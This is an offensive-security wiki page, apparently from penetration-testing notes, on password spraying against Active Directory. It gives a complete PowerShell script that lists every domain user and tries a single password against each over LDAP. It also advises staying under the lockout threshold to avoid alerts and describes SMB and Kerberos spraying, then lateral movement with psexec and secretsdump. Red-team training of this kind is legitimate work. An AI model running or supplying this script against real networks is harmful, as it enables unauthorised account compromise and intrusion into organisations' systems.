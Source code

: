 ```yaml
---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---
```


# Password Spraying

Before attempting any password attacks, check the domain's **account lockout policy** to avoid locking out accounts or triggering alerts.

```powershell
# List the account policy
> net accounts
...
Lockout threshold:                                    5
Lockout duration (minutes):                           30
Lockout observation window (minutes):                 30
...
```

Based on the above policy, we can safely try **4 login attempts per user every 30 minutes**. This allows up to **192 attempts/user/day**.

> _Tools like_ [_`netexec`_](../../../tools/active-directory/netexec-cme.md#password-policy) _can be used to enumerate the domain's account lockout policy._

## LDAP-Based

This method leverages LDAP binding via PowerShell’s `.NET` libraries. It attempts authentication by trying to create an LDAP object — if it succeeds, the credentials are valid. This method is **stealthy**, no interactive log in, and **respects lockout policy**, but is **slow** and **limited to one password per run**.

{% code overflow="wrap" %}
```powershell
# Get the domain and PDC
$domain = [System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()
$PDC = $domain.PdcRoleOwner.Name
# Construct the LDAP path
$ldap = "LDAP://$PDC/DC=" + $domain.Name.Replace('.', ',DC=')
# Attempt authentication
$entry = New-Object System.DirectoryServices.DirectoryEntry($ldap, "pete", "Nexus123!")
$entry.distinguishedName  # Triggers authentication
```
{% endcode %}

If the password is invalid, it throws an error. If valid, it returns the DN. We can automate this with the following script which loops through AD users and reports valid logins.

{% code title="LDAPSpray.ps1" overflow="wrap" %}
```powershell
param(
    [string]$Password = "Nexus123!",
    [string]$Domain = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain()).Name
)

Write-Host "[*] Starting LDAP password spray for domain: $Domain"
$PDC = ([System.DirectoryServices.ActiveDirectory.Domain]::GetCurrentDomain().PdcRoleOwner).Name
$LDAP = "LDAP://$PDC/DC=" + $Domain.Replace('.', ',DC=')

# Get all users from AD
$Searcher = New-Object DirectoryServices.DirectorySearcher
$Searcher.Filter = "(objectCategory=person)"
$Searcher.PageSize = 1000
$Searcher.PropertiesToLoad.Add("sAMAccountName") > $null
$Users = $Searcher.FindAll() | ForEach-Object { $_.Properties.samaccountname }

foreach ($User in $Users) {
    if ([string]::IsNullOrWhiteSpace($User)) { continue }

    try {
        $Entry = New-Object System.DirectoryServices.DirectoryEntry($LDAP, $User, $Password)
        $null = $Entry.distinguishedName  # Force bind/authentication
        Write-Host "[+] VALID: $User : $Password"
    } catch {
        Write-Host "[-] INVALID: $User"
    }
}

```
{% endcode %}

```powershell
> .\LDAPSpray.ps1 -Password "Nexus123!"
```

## SMB-Based

This method involves a full SMB session setup/teardown on each authentication attempt so it's **slow**, **noisy**, and **does not respect the lockout policy**. We can perform this attack using tools like [`netexec`](../../../tools/active-directory/netexec-cme.md#password-spray).

> _With `netxec`, if a sprayed password is valid_ _and the user is a `local administrator` on the target system, the `(Pwn3d!)` string will appear. This means that tools like `psexec`, `wmiexec`, or `secretsdump` can be used for lateral movement or privilege escalation._

Kerberos-Based

This method uses Kerberos AS-REQs to test credentials. It's **lightweight** (no full session required) and **fast** (only two UDP packets per attempt: AS-REQ, AS REP/error). This attack can be performed with tools like [`kerbrut`](../../../tools/active-directory/kerbrute.md#password-spraying)`e`, a cross-platform, fast, and reliable tool which performs password spraying by automating AS-REQ requests and interpreting the responses.&#x20;

## Method Comparison

| Protocol | Noise | Lockout-Safe | Speed     | Notes                              |
| -------- | ----- | ------------ | --------- | ---------------------------------- |
| LDAP     | Low   | ✅ Yes        | Medium    | Scriptable, stealthy               |
| SMB      | High  | ❌ No         | Slow      | Reveals admin access (`Pwn3d!`)    |
| Kerberos | Low   | ❌ No         | Very Fast | UDP-based, great for fast spraying |
